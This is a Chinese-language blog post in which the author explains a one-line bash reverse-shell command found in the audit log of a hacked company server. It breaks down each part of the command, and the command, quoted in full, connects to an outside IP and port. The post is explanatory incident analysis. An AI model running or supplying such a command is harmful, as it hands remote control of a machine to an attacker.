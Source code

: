```yaml
---
layout: post
title: 单行反弹Shell命令的理解
description: "单行反弹Shell命令的理解"
category: Shell
avatarimg:
tags: [Linux, Shell, Security]
duoshuo: true
---
```


公司的一台服务器被黑客入侵了。。。安全没做好！！！
查看bash审计日志，发现黑客执行的相关命令，其中有一条反弹Shell的命令，在被黑的服务器上执行如下：
> bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用nc等工具监听9083端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，整个表现就是被黑服务器的Shell反弹到黑客机器上了，和SSH远程登录一台服务器执行命令一样。。。

理解上面的单行命令，费了好半天，看来对bash shell的掌握还不够啊。

- 首先， bash -i开启了Shell的交互模式，这样反弹Shell后，黑客可以和它交互；
- 然后是这段： >& /dev/tcp/173.208.201.162/9083，表示bash打开到远程目标IP端口的TCP连接，并将标准出重定向到远程目标IP端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标IP端口上？（PS: 这里我不是很好理解，欢迎高手指点下。）
- 最后的&表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对bash shell的掌握很深入了。

**Refercences: **  
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)  
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)
